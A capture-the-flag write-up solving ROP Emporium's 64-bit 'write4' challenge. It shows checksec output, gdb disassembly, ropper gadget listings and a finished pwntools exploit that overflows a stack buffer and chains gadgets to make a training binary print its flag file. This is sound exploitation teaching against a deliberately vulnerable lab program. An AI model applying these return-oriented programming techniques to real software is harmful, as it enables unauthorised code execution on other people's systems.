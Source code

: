 ## 64 bits

```bash
$ checksec write4
[*] '/home/localuser/ropemporium/write4/64bits/write4'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
 ```
 
 Running the binary:
 
 ```bash
 $ ./write4 
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> test
Thank you!
 ```
 
 Now I'll open it on gdb and see the functions:
 
 ```bash
 pwndbg> info func
All defined functions:

Non-debugging symbols:
0x00000000004004d0  _init
0x0000000000400500  pwnme@plt
0x0000000000400510  print_file@plt
0x0000000000400520  _start
0x0000000000400550  _dl_relocate_static_pie
0x0000000000400560  deregister_tm_clones
0x0000000000400590  register_tm_clones
0x00000000004005d0  __do_global_dtors_aux
0x0000000000400600  frame_dummy
0x0000000000400607  main
0x0000000000400617  usefulFunction
0x0000000000400628  usefulGadgets
0x0000000000400630  __libc_csu_init
0x00000000004006a0  __libc_csu_fini
0x00000000004006a4  _fini
 ```
 
 The `main` function calls the `pwnme` function:
 
 ```bash
 pwndbg> disassemble pwnme
Dump of assembler code for function pwnme@plt:
   0x0000000000400500 <+0>:     jmp    QWORD PTR [rip+0x200b12]        # 0x601018 <pwnme@got.plt>
   0x0000000000400506 <+6>:     push   0x0
   0x000000000040050b <+11>:    jmp    0x4004f0
End of assembler dump.
 ```
 
 `pwnme` it's at plt, and there's `usefulGadgets` and `usefulFunction`:
 
 ```bash
 pwndbg> disassemble usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:     mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:     ret    
   0x000000000040062c <+4>:     nop    DWORD PTR [rax+0x0]
End of assembler dump.
pwndbg> disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x0000000000400617 <+0>:     push   rbp
   0x0000000000400618 <+1>:     mov    rbp,rsp
   0x000000000040061b <+4>:     mov    edi,0x4006b4
   0x0000000000400620 <+9>:     call   0x400510 <print_file@plt>
   0x0000000000400625 <+14>:    nop
   0x0000000000400626 <+15>:    pop    rbp
   0x0000000000400627 <+16>:    ret    
End of assembler dump.
 ```
 
 Now i'll use ropper to find useful gadgets, and those are the importants:
 
 ```bash
 $ ropper                                                                                                                                   
(ropper)> file write4
(write4/ELF/x86_64)> gadgets
----
----
0x0000000000400690: pop r14; pop r15; ret;
0x0000000000400693: pop rdi; ret;
----
----
 ```

 
 Now we need somewhere to write, let's find it with `obdjump`:
 
 ```bash
 $ objdump -h write4
 -----
 -----
 -----
 22 .data         00000010  0000000000601028  0000000000601028  00001028  2**3
----
----
 ```
 
 I'll use `.data` but `.bss` will work too.
 
So what we are going to do is send the padding then with the gadget `pop r14; pop r15`, we change the value of r14 to `.data` and the r15 the `flag.txt` string, then we move `flag.txt` to `.data` and after that with the gadget `pop rdi`, the new value of rdi is going to be flag.txt, and then we call the `print_file` function to get the flag
 
 The final exploit:
 
 ```python
 from pwn import *

p = process("./write4")
elf = ELF("./write4")

# gadgets:
pop_r14_r15 = p64(0x400690) 
mov_r14_r15 = p64(0x400628) 
print_file = p64(0x400510)
pop_rdi = p64(0x400693)
data = p64(0x601028)


payload = b"a"*40
payload += pop_r14_r15
payload += data
payload += b"flag.txt"
payload += mov_r14_r15
payload += pop_rdi
payload += data
payload += print_file

p.recvuntil(">")
p.sendline(payload)
p.recvline()
p.interactive()
 ```
 
 
 
